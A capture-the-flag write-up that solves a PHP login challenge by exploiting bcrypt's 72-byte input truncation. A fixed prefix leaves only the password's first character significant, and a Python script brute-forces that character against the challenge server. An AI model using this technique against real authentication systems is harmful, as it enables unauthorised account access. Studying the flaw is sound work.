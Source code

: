 ## Challenge

**Title**
WEB/CRYPTO // 🔐 Entropyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy

**Description**
It's finally here. Something everyone's been waiting for. A service that solves the biggest problem of humanity. People passwords. They are tooooooooooo short. This service applies so much fresh organic gluten free salt to the password that even the biggest noob who has the word 'dog' as their password can feel safe. So much entropy that I can't even imagine it!
🔗 https://entropyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy-2f567adc1e4d.1753ctf.com
💾 https://get.1753ctf.com/entropyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy/index.php?s=PqlsZy3E

## Solution

We've been provided with an applcation using this code for authentication.

```php
session_start();

$usernameAdmin = 'admin';
$passwordAdmin = getenv('ADMIN_PASSWORD');

$entropy = 'additional-entropy-for-super-secure-passwords-you-will-never-guess';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    
    $hash = password_hash($usernameAdmin . $entropy . $passwordAdmin, PASSWORD_BCRYPT);
    
    if ($usernameAdmin === $username && 
        password_verify($username . $entropy . $password, $hash)) {
        $_SESSION['logged_in'] = true;
    }
}
```

After successfull login for admin user it will give us a flag.

```php
<?php
if (isset($_SESSION['logged_in'])) {
?>
    <div class="welcome">Hello, Admin, here's your secret message:<br />
    <?php echo strval(getenv('flag')); ?> <br/><br/>Don't share it with anyone!</div>
<?php
}
?>
```

We can see that the bcrypt function was used here, which only processes the first 72 bytes of the input. I prepared a PoC to verify my findings.

```php
<?php

	$usernameAdmin = 'admin';
	$passwordAdmin = 'password';

	$entropy = 'additional-entropy-for-super-secure-passwords-you-will-never-guess';

	$username = 'admin';
	$password = 'pddddd';

	$hash = password_hash($usernameAdmin . $entropy . $passwordAdmin, PASSWORD_BCRYPT);

	if ($usernameAdmin === $username &&
	    password_verify($username . $entropy . $password, $hash)) {
	    $_SESSION['logged_in'] = true;
	    echo "Success";
	}
?>
```

The execution of this code completed successfully. In summary, instead of brute-forcing the full password, it was sufficient to recover just its first character, and I used this short Python script to do so.

```python
import itertools
import string
import requests

url = "https://entropyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy-2f567adc1e4d.1753ctf.com/"

charset = ''.join(chr(i) for i in range(32, 127))

success_indicator = "secret message"

for combo in charset:
    password = ''.join(combo)
    
    data = {
        "username": "admin",
        "password": password
    }

    try:
        response = requests.post(url, data=data)
        
        if success_indicator in response.text:
            print(f"[✅] Password found: {password}")
            break
        else:
            print(f"[❌] Trying: {password}")

    except Exception as e:
        print(f"[⚠️] Error with {password}: {e}")
```

After all, I logged in using the recovered character (~) and successfully obtained the flag.